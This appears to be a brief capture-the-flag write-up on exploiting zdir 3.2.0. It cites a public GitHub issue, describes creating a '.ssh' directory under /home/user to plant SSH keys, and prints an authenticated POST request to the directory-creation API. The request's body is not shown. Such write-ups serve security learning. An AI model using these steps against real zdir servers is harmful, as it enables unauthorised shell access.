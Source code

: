 ![](attachment/065524d98c1e725f231894be86438bae.png)

Version info:

![](attachment/a34fffeff518ddfeaba627049cf86763.png)

Google : `zdir 3.2.0-20230109 exploit`

> https://github.com/helloxz/zdir/issues/90

Follow the steps, ez win

Make `.ssh` directory at `/home/user` to put ssh public keys

> [!info]
> Remember to add `Content-Type: application/x-www-form-urlencoded;charset=UTF-8`

```http
POST /api/dir/create HTTP/1.1
Host: challenge.ctf.games:31377
Accept: application/json, text/plain, */*
X-Token: 1d49c64e3b24ba313d08fd899f8c5424
X-Cid: bPlNFG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Referer: http://challenge.ctf.games:31377/admin
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: USERNAME=admin; CID=bPlNFG; TOKEN=1d49c64e3b24ba313d08fd899f8c5424
dnt: 1
sec-gpc: 1
Connection: close
Content-Length: 38

```